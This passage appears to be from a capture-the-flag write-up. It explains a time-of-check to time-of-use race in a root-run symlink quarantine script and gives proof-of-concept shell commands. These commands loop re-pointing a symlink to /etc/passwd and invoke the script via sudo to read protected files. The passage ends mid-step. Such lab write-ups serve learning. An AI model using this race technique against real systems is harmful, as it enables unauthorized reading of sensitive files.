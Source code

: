 ### Why The Script Is Vulnerable to a (TOCTOU) Time-Of-Check To Time-Of-Use Race Condition {#why-the-script-is-vulnerable-to-a--toctou--time-of-check-to-time-of-use-race-condition}

The script is vulnerable because it **checks the symlink target before moving the link to the quarantine folder**,
but then **reads the symlink contents after moving it**. This time gap opens a window for exploitation.

```shell
# The Check
if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)'; then
  # The Move
  /usr/bin/mv $LINK $QUAR_DIR/
```

The **use** (reading the contents of the symlink) happens **after** the move.

```shell
# Reading the contents
if $CHECK_CONTENT; then
  /usr/bin/echo "Content:"
  /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
```

Between these two actions — the **check** and the **use/read** — an attacker can **change the symlink target** to point to sensitive files. The script will then read that new target's content, bypassing the initial check.


#### Exploiting The TOCTOU Vulnerability POC {#exploiting-the-toctou-vulnerability-poc}

To exploit this, we need two terminal sessions connected to the host.
  +Note+: I already checked if tmux was available and it wasn't :( so we need to have two ssh sessions instead.

1.  **Create a throw-away symlink to bypass the initial target check.**
    Make sure the symlink target is not inside `/etc` or `/root`.
    ```shell
    ln -s fake POC.png
    ```

2.  **In the second terminal, we create a continuous loop that repeatedly overwrites the quarantined symlink**
    to point to a sensitive we want to read:
    ```shell
    while true; do ln -sf /etc/passwd /var/quarantined/POC.png; done
    ```
    +Note+:

    -   The `while true` loop runs indefinitely, constantly overwriting the symlink.
    -   The `-f` flag forces the symlink overwrite to avoid errors.

3.  **Back in the first terminal, we set the environment variable `CHECK_CONTENT=true` and run the script:**
    ```shell
    export CHECK_CONTENT=true
    sudo /usr/bin/bash /opt/ghost/clean_symlink.sh ./POC.png
    ```
    +Note+:
